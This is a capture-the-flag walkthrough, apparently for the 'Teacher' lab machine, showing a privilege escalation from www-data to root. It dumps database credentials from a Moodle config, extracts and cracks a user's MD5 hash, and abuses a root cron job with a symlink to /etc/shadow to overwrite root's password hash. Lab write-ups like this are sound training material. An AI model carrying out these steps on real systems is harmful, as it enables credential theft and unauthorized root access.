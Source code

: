 # 15 - PrivEsc


# Configuration File

The first place to look into for lateral movement is the the web server itself. Web apps like Moodle use databases to store data. If we can access the config file we access the database.


```php
www-data@teacher:/var/www/html/moodle$ cat config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8mb4_unicode_ci',
);

$CFG->wwwroot   = 'http://10.10.10.153/moodle';
$CFG->dataroot  = '/var/www/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```


Always try password reuse for system users before proceeding with the database. In our case, they are not using the same password.


# Passwords
```bash
www-data@teacher:/var/www/html/moodle$ mysql -u root -p                                                                                                                                       Enter password:Welkom1!

MariaDB [(none)]> use moodle;
MariaDB [moodle]> select username,password from mdl_user;
+-------------+--------------------------------------------------------------+
| username    | password                                                     |
+-------------+--------------------------------------------------------------+
| guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
| admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
| giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
| Giovannibak | 7a860966115182402ed06375cf0a22af                             |
+-------------+--------------------------------------------------------------+
4 rows in set (0.00 sec)

MariaDB [moodle]> 

```

Giovannibak password doesn't look like the other passwords in the database.


# MD5 Hash
```
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher]
└──╼ $ echo -n 7a860966115182402ed06375cf0a22af | wc -c
32
```

32 character length usually points us to md5.

# CrackStation
![](vx_images/2493474150585.png)

**expelled** is the password

# Giovanni
```bash
www-data@teacher:/var/www/html/moodle$ su - giovanni
Password: expelled
giovanni@teacher:~$
```

The password from the mysql database matches the giovanni's password.

# Files owned by root
```
giovanni@teacher:~/work/tmp$ ls -la
total 16
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 .
drwxr-xr-x 4 giovanni giovanni 4096 Jun 27  2018 ..
-rwxrwxrwx 1 root     root      256 Aug 28 18:45 backup_courses.tar.gz
drwxrwxrwx 3 root     root     4096 Jun 27  2018 courses
```

Once logged in, we notice files that belong to root. 



# Root is extracting tarball every minute
```bash
giovanni@teacher:~/work/tmp$ date
Sat Aug 28 18:50:11 CEST 2021
giovanni@teacher:~/work/tmp$ ls -la
total 16
drwxr-xr-x 3 giovanni giovanni 4096 Aug 28 18:50 .
drwxr-xr-x 4 giovanni giovanni 4096 Jun 27  2018 ..
-rwxrwxrwx 1 root     root      256 Aug 28 18:50 backup_courses.tar.gz
drwxrwxrwx 3 root     root     4096 Aug 28 18:50 courses
```

Today's date and time matches the file modification time. This means a process running as root is doing something in our home directory every minute. Of course we should take into account that the archive and courses are read/write open to everybody.

We need to know what exactly is happening in giovanni's home. To do that we have to monitor all the processes. PsPy is a great tool for monitoring processes without root permissions.

# Pspy64
![](vx_images/1481662423322.png)

Apparently, /usr/bin/backup.sh is a cron job.


# Cron job
```bash
giovanni@teacher:~/work/tmp/courses$ cat /usr/bin/backup.sh
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

1- tar -czvf creates a gzip archive with files in courses/ and names it tmp/backup_courses.tar.gz
2- tar -xf extracts the archive into tmp
3- gives read write permissions to everything in *tmp*

Remember we have write access to tmp, a symbolic link to /etc/shadow should give us read write permission.

# Symbolic link to shadow
```bash
giovanni@teacher:~/work/tmp$ ln -sf  /etc/shadow .
giovanni@teacher:~/work/tmp$ ls -l /etc/shadow
-rwxrwxrwx 1 root shadow 961 Jun 27  2018 /etc/shadow
```


# replace root hash with giovanni's 
```bash
root@teacher:~# cat /etc/shadow | grep 'giovan\|root'
root:$6$RiDoH4VN$WamVNCkuoZyN1uM6hmyKKt6GwGWAamiQM3SYCrr5lmUYnmV7vpBNkYZCHqjh7UDtsdF8NbGjM7dJPIsxeFkrx0:17709:0:99999:7:::
giovanni:$6$RiDoH4VN$WamVNCkuoZyN1uM6hmyKKt6GwGWAamiQM3SYCrr5lmUYnmV7vpBNkYZCHqjh7UDtsdF8NbGjM7dJPIsxeFkrx0:17709:0:99999:7:::
```


# root
```bash
giovanni@teacher:~/work/tmp$ su -
Password: expelled
root@teacher:~# 
```
